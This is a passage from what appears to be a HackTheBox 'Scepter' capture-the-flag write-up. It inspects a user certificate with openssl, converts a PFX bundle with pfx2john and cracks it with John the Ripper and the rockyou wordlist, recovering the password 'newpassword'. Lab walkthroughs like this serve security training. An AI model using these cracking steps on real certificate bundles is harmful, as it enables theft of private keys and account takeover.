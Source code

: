 This part really important let me explain as best i can.

## Certificate & PFX Analysis of Scepter Users

We begin by examining the contents of the `baker.crt` certificate file:

```bash
└─# openssl x509 -in baker.crt -noout -text | grep 'CN'      
        Issuer: DC=htb, DC=scepter, CN=scepter-DC01-CA
        Subject: DC=htb, DC=scepter, CN=Users, CN=d.baker, emailAddress=d.baker@scepter.htb
                  URI:ldap:///CN=scepter-DC01-CA,CN=dc01,CN=CDP,CN=Public%20Key%20Services,CN=Services,CN=Configuration,DC=scepter,DC=htb?certificateRevocationList?base?objectClass=cRLDistributionPoint
                CA Issuers - URI:ldap:///CN=scepter-DC01-CA,CN=AIA,CN=Public%20Key%20Services,CN=Services,CN=Configuration,DC=scepter,DC=htb?cACertificate?base?objectClass=certificationAuthority
```

This reveals both the **email** and the **User Principal Name (UPN)**

of the user:

```
d.baker@scepter.htb
```

PFX files bundle a certificate and a private key together and are usually **password protected**. Let's attempt to crack the password for one of the PFX files.

### Step 1: Convert the PFX file to a hash format for JohnTheRipper

We use the `pfx2john.py` script from [Openwall's GitHub](https://github.com/openwall/john):

```bash
┌──(root㉿kali)-[/home/…/Documents/HackTheBox/scepter/NFSOUT]
└─# pfx2john scott.pfx > scott_hash
                                                                                                                                                                                             
┌──(root㉿kali)-[/home/…/Documents/HackTheBox/scepter/NFSOUT]
└─# john scott_hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 256/256 AVX2 8x])
Cost 1 (iteration count) is 2048 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 256 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
newpassword      (scott.pfx)  
```

✅ Success! We recovered the password:

```
newpassword
```

(*All other PFX files seem to use the same password*)

### 2. Verifying & Extracting Contents from `clark.pfx`
